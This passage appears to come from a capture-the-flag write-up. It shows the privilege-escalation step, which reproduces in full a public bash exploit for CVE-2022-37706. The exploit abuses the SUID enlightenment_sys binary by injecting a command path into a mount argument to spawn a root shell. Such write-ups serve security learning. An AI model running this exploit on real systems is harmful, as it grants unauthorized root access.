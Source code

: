 ![PE](./Screenshots/boardlightpe3.png)

I also found this exploit on its author's `github`:

```
https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit
```

Shoutout to **MaherAzzouzi**.

I will use it. Script looks like this:

```
#!/bin/bash

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
	echo "[-] Couldn't find the vulnerable SUID file..."
	echo "[*] Enlightenment should be installed on your system."
	exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Enjoy the root shell :)"
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```
